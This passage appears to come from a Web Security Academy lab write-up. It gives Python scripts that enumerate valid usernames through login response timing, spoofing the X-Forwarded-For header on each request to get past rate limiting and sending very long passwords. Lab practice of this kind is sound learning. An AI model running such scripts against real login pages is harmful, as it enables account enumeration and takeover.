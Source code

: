     for i in range(0, len(usernames)):
        headers['X-Forwarded-For'] = f'8.{i}.{i}.{i}'
        data['username'] = usernames[i]

        response = requests.post(
            'https://your-lab-subdomain.web-security-academy.net/login',
            cookies=cookies,
            headers=headers,
            data=data,
            verify=False,
        )
        
        output.write(f'{usernames[i]},{response.status_code},{response.elapsed}\n')
    ```

    ```Python:line-numbers [enum-password.py]
    # !/usr/bin/python
    import requests

    cookies = {
        'session': 'your-session-cookie',
    }

    headers = {
        'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'accept-language': 'en-US,en;q=0.9',
        'cache-control': 'max-age=0',
        'content-type': 'application/x-www-form-urlencoded',
        'origin': 'https://your-lab-subdomain.web-security-academy.net',
        'priority': 'u=0, i',
        'referer': 'https://your-lab-subdomain.web-security-academy.net/login',
        'sec-ch-ua': '"Chromium";v="137", "Not/A)Brand";v="24"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"macOS"',
        'sec-fetch-dest': 'document',
        'sec-fetch-mode': 'navigate',
        'sec-fetch-site': 'same-origin',
        'sec-fetch-user': '?1',
        'upgrade-insecure-requests': '1',
        'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36',
        'X-Forwarded-For': '8.8.8.8',
    }

    data = {
        'username': 'mysql',
        'password': 'peter'*200,
    }

    response = requests.post(
        'https://your-lab-subdomain.web-security-academy.net/login',
        cookies=cookies,
        headers=headers,
        data=data,
        verify=False,
    )
